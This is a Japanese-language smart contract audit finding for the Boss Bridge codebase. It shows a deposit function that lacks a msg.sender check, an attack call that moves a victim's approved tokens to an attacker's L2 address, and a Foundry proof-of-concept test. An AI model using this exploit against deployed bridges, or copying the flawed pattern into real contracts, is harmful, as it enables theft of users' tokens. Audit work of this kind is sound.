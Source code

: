 # Boss Bridge セキュリティ監査 - 脆弱性分析レポート

## 監査実施日: 2025-10-03

---

## 🚨 CRITICAL 脆弱性

### [C-01] depositTokensToL2による無許可のトークン盗難

**ファイル:** `src/L1BossBridge.sol:78-86`

**脆弱性の詳細:**
```solidity
function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
    token.safeTransferFrom(from, address(vault), amount);  // ❌ msg.senderチェックなし
    emit Deposit(from, l2Recipient, amount);
}
```

**問題点:**
- `from`パラメータが完全に信頼されている
- `msg.sender == from`のチェックが一切ない
- 誰でも他人の承認済みトークンを盗める

**攻撃シナリオ:**
1. 被害者Aliceがブリッジに1000トークンを承認: `approve(bridge, 1000e18)`
2. 攻撃者BobがAliceのトークンを盗む:
   ```solidity
   tokenBridge.depositTokensToL2(alice, bob_L2_address, 1000e18);
   ```
3. Aliceのトークンがvaultに転送され、BobのL2アドレスにミントされる

**影響:**
- **重大度:** CRITICAL
- **影響度:** HIGH - 全ユーザーの承認済みトークンが盗難可能
- **発生確率:** HIGH - 攻撃実行が極めて簡単
- MEV botによる自動攻撃が可能

**概念実証コード (PoC):**
```solidity
function testAttackerCanStealApprovedTokens() public {
    // 被害者がブリッジを承認
    vm.startPrank(user);
    token.approve(address(tokenBridge), 100e18);
    vm.stopPrank();

    // 攻撃者が盗む
    address attacker = makeAddr("attacker");
    vm.prank(attacker);
    tokenBridge.depositTokensToL2(user, attacker, 100e18);

    // 被害者のトークンが盗まれ、攻撃者がL2で受け取る
}
```
